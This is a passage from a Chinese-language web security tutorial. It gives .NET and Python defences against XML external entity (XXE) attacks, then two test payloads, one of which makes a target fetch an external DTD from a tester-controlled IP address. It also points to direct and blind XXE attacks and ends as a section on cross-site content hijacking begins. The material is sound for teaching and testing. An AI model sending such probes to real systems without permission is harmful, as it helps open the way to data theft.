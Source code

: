 1. 通过将XmlReaderSettings.XmlResolver属性设置为XmlSecureResolver对象限制XmlReader可访问的资源。
2. 通过将XmlReaderSettings.XmlResolver属性设置为null，不允许XmlReader打开任何外部资源。
3. 对于利用超大的XML文档进行拒绝服务攻击的问题，使用XmlReader时，通过设置MaxCharactersInDocument属性，可以限制能够分析的文档大小。
4. 通过设置MaxCharactersFromEntities属性，可以限制从扩展实体中生成的字符数。

Python：

	from lxml import etree
	xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
	
**6、漏洞扫描与发现****

---
检测XML是否被解析

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE ANY [
		<!ENTITY xxe "xxe test">
	]>
	<root>&xxe;</root>
如果显示了xxe test证明支持，进行第二步

是否支持外部实体:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE ANY [
		<!ENTITY % xxe SYSTEM "http://192.168.5.1/xxe.xml">
	%xxe;
	]>
观察自己的服务器上得access.log，如果有xxe.xml的请求，证明可以加载外部实体。

然后判断是否有回显，有回显就直接加载外部实体来进行攻击

不能回显，则使用Blind XXE攻击方法

**7、相关资源**

---
[w3school：XML系列教程](http://www.w3school.com.cn/x.asp)

[Mark4z5：未知攻焉知防——XXE漏洞攻防](http://security.tencent.com/index.php/blog/msg/69)

[XML External Entity (XXE) Processing](https://www.owasp.org/index.php/XML_External_Entity_/(XXE/)_Processing)

[读源码的猫：XXE漏洞以及Blind XXE总结](http://blog.csdn.net/u011721501/article/details/43775691)

[Chris Cornutt：Preventing XXE in PHP](http://websec.io/2012/08/27/Preventing-XEE-in-PHP.html)

[Timothy D.Morgan：What You Didn't Know About XML External Entities Attacks](https://www.youtube.com/watch?v=eHSNT8vWLfc)



##XSCH (Cross Site Content Hijacking）

**1.相关背景介绍**

---
XSCH (Cross Site Content Hijacking）可翻译为跨站内容劫持，它和XSS有异曲同工之妙。它可以劫持获取用户敏感数据、劫持用户发起任意请求，是XSS和CSRF的一种变体，它和XSS比略显鸡肋，比CSRF更强大。不过，对于用户，我觉得这三者的危害是相同的，他们都可以危及到用户的数据或敏感信息。
